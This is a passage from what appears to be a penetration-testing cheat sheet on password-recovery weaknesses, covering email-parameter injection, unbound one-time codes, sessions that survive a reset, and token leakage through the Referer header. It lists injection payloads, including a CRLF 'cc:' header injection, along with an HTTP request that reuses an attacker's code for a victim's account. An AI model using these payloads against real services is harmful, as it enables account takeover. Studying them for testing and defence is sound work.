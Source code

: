 an application sends the same recovery link to two email addresses.

You can also try the following payloads:

```http
victim@website.com&attacker@website.com
victim@website.com,attacker@website.com
victim@website.com|attacker@website.com
victim@website.com%20attacker@website.com
victim@website.com%09attacker@website.com
victim@website.com%0a%0dcc:attacker@website.com
...
```

References:

- [Writeup: Readme.com Account Takeover #BugBounty #FullDisclosure #Fixed](https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be)

## Lack of link between account and code

Try to request an one-time token for your account and use them to recover a victim's account:

```http
POST /users/password/recovery HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 72

{"email": "victim@website.com","code": "<code-for-an-attacker-account>"}
```

## Password recovery does not end previously created sessions

Successful password recovery should end previously created sessions. If this does not happen, an victim will not have mechanisms for managing the security of their account. As a result, an attacker will be able to maintain an active session for an extended period of time.

## Token leakage via Referer header

The [Referer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) HTTP request header contains an absolute or partial address of the page that makes the request. The `Referer` header allows a server to identify a page where people are visiting it from. This data is used for analytics, logging, optimized caching, and more.

The Referer header can contain an `origin`, `path`, and `querystring`, and may not contain URL fragments (i.e. `#section`) or `username:password` information. The request's referrer policy defines the data that can be included, see [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy).

A page with a password recovery, a link to which an application sends by email, can load third-party scripts, for instance, analytics, or contain links to third-party resources, for instance, social networks. If the password recovery link is passed into the `Referer` header when requesting these resources, an one-time token is leaked to a third-party resource, since it is passed to the `querystring`.
